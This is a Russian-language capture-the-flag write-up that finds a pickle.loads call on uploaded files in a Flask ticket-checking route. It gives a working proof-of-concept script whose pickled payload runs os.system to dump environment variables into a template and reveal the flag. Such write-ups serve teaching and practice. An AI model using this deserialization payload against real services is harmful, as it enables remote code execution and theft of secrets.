 # Касса

В предоставленном нам коде заметим следующий функционал:

```python
@main.route("/check-ticket", methods=["GET", "POST"])
@login_required
def checkVerification():
    if request.method == "POST":
        file = request.files["ticket_file"]
        data = file.read()
        success=True
        if not data:
            success=False
            message =  "Нет данных для загрузки"
        try:
            ticket = pickle.loads(data)
            if not isinstance(ticket, TicketDTO):
                success=False
                message =  "Некорректные данные!"
            if sha1((ticket.name + ticket.user + str(ticket.time_stamp) + Config.SECRET_KEY).encode()).hexdigest() != ticket.sign:
                success=False
                message =  "Этот билет подделка!"
            if success:
                message =  f"Билет валиден! Владелец: {ticket.user}, Тип: {ticket.name}, Дата и время покупки: {ticket.time_stamp}"
        except Exception as e:
            success=False
            message =  f"Ошибка при чтении билета!"
        return render_template("check_verification.html", message=message, success=success)
    return render_template("check_verification.html")
```


В частности, на строку `ticket = pickle.loads(data)`
Данные "анпиклятся", а сами данные - просто прочитанный файл, переданный в HTTP-запросе

Процесс десерализации произвольных данных с помощью pickle не является безопасным

напишем PoC скрипт:

```python
import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))


base_url = 'http://10.10.11.51:5012'
s = requests.Session()

resp = s.post(base_url+"/login", data={"username":"asd", "password":"asd"})
print(resp.status_code)

command = 'env > /app/templates/register.html' 

payload = pickle.dumps(PickleRCE())

open("pickled", "wb").write(payload)

resp = s.post(base_url+"/check-ticket", files={"ticket_file": payload})

print(resp.status_code)
```

поскольку флаг лежит в переменных окружения, а на машине нет доступа к нам и в интернет, перенаправим результат команды env в темплейт, который рендерится при попадании на /register

запускаем, идем на /register, получаем флаг

FLAG=nto{w3lc0m3_t0_t4e_tr41n!!!}